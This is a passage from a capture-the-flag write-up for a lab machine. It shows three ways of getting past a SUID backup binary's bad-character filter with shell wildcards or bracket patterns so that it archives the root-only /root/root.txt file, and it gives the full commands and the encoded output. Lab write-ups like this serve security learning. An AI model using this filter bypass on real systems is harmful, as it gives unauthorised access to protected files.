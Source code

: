 But, The problem here is we could use an `wildcard` in bash to get the flag.
We could use something like `/roo*/roo*` ,`/roo?/r???.txt` to get the `root.txt` or regex like `/roo[a-z]/roo[a-z].txt` to get the flag as those are aparently not a bad character.

## `*` wildcard method
**This is what I personally did as it came to my mind.**
```python
tom@node:~$ backup magisk 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 /roo*/roo*.txt

*** SNIP ***

 [+] Validated access token
 [+] Starting archiving /roo*/roo*.txt
 [+] Finished! Encoded backup is below:

UEsDBAoACQAAANR9I0vyjjdALQAAACEAAAANABwAcm9vdC9yb290LnR4dFVUCQAD0BWsWXPx4WB1eAsAAQQAAAAABAAAAAAHxxTUNPqEzMpUtCvNrfQoqnu+dsyNap7+9OcxmY7lzZw6i/+460ukEApB5/1QSwcI8o43QC0AAAAhAAAAUEsBAh4DCgAJAAAA1H0jS/KON0AtAAAAIQAAAA0AGAAAAAAAAQAAAKCBAAAAAHJvb3Qvcm9vdC50eHRVVAUAA9AVrFl1eAsAAQQAAAAABAAAAABQSwUGAAAAAAEAAQBTAAAAhAAAAAAA
```

## `?` wildcard method 
```python
tom@node:~$ backup magisk 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 /r??t/r???.txt

*** SNIP ***

 [+] Validated access token
 [+] Starting archiving /r??t/r???.txt
 [+] Finished! Encoded backup is below:

UEsDBAoACQAAANR9I0vyjjdALQAAACEAAAANABwAcm9vdC9yb290LnR4dFVUCQAD0BWsWXPx4WB1eAsAAQQAAAAABAAAAAD0SQ/g+nvtrCkTrJbiaJDkVRPpDTO8n4H9nD+1NdVPZm7nWAyjeVk7kJRXwLFQSwcI8o43QC0AAAAhAAAAUEsBAh4DCgAJAAAA1H0jS/KON0AtAAAAIQAAAA0AGAAAAAAAAQAAAKCBAAAAAHJvb3Qvcm9vdC50eHRVVAUAA9AVrFl1eAsAAQQAAAAABAAAAABQSwUGAAAAAAEAAQBTAAAAhAAAAAAA
```

## regex method
```python
tom@node:~$ backup magisk 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 /roo[a-z]/roo[a-z].txt

*** SNIP ***

 [+] Validated access token
 [+] Starting archiving /roo[a-z]/roo[a-z].txt
 [+] Finished! Encoded backup is below:

UEsDBAoACQAAANR9I0vyjjdALQAAACEAAAANABwAcm9vdC9yb290LnR4dFVUCQAD0BWsWXPx4WB1eAsAAQQAAAAABAAAAACADA20VY5TmZ9AkXETvidpIV4GF60AeWXZrb50mh1oZ2ef6JOVynrXWRh47tNQSwcI8o43QC0AAAAhAAAAUEsBAh4DCgAJAAAA1H0jS/KON0AtAAAAIQAAAA0AGAAAAAAAAQAAAKCBAAAAAHJvb3Qvcm9vdC50eHRVVAUAA9AVrFl1eAsAAQQAAAAABAAAAABQSwUGAAAAAAEAAQBTAAAAhAAAAAAA
```
